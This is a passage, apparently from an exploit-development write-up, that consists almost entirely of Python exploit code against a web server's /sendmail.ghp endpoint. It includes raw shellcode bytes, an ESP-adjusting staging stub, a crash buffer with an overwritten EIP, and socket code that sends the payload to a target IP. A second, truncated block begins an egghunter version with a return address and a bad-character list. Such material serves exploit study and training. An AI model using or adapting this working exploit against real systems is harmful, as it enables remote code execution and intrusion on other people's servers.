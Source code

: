 ``` ruby
"\xc8\xec\x38\xf3\x37\x0f\x39\xda\xf3\x5b\x69\x74\xd5\xe3\xe2"
"\x84\xda\x31\xa4\xd4\x74\xea\x05\x84\x34\x5a\xee\xce\xba\x85"
"\x0e\xf1\x10\xae\xa5\x08\xf3\x11\x91\x2a\x02\xfa\xe0\x4a\x05"
"\x47\x6d\xac\x6f\xa7\x38\x67\x18\x5e\x61\xf3\xb9\x9f\xbf\x7e"
"\xf9\x14\x4c\x7f\xb4\xdc\x39\x93\x21\x2d\x74\xc9\xe4\x32\xa2"
"\x65\x6a\xa0\x29\x75\xe5\xd9\xe5\x22\xa2\x2c\xfc\xa6\x5e\x16"
"\x56\xd4\xa2\xce\x91\x5c\x79\x33\x1f\x5d\x0c\x0f\x3b\x4d\xc8"
"\x90\x07\x39\x84\xc6\xd1\x97\x62\xb1\x93\x41\x3d\x6e\x7a\x05"
"\xb8\x5c\xbd\x53\xc5\x88\x4b\xbb\x74\x65\x0a\xc4\xb9\xe1\x9a"
"\xbd\xa7\x91\x65\x14\x6c\xa1\x2f\x34\xc5\x2a\xf6\xad\x57\x37"
"\x09\x18\x9b\x4e\x8a\xa8\x64\xb5\x92\xd9\x61\xf1\x14\x32\x18"
"\x6a\xf1\x34\x8f\x8b\xd0\x90"
)

Staging=(
"\x54\x58" #PUSH ESP #POP EAX
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x7F" #SUB EAX, 7C
"\x83\xE8\x13" #SUB EAX, 7C
"\x50\x5C" #PUSH EAX #POP ESP
"\xFF\xE0" #JMP EAX
)

Stage1 = Staging + "\x90"*34
Stage2=Buffer+Shell+"\xcc"*(360-len(Shell))
Padding="\x90"*16

crash = Stage2+EIP+Padding+Stage1

buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n" 
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```

For the Egg Hunting exploit, my exploit looks as follows:

``` ruby
#!/usr/bin/python

import socket
import sys

if len(sys.argv) < 2:
	print "Usage: python EFS.py [IP]\n"
	print "i.e python  EFS.py 192.168.56.101\n"
	exit(1)


#Bad Chars= \x25\x26\x27\x2b\x00
#push esp, ret 0x61c5203b

EIP= "\x3b\x20\xc5\x61"

Egghunter  = ""
Egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
Egghunter += "\x05\x5a\x74\xef\xb8\x72\x30\x30\x74\x89\xd7\xaf\x75"
Egghunter += "\xea\xaf\x75\xe7\xff\xe7"

Stage1=Egghunter + "\xcc"*(52-len(Egghunter))
```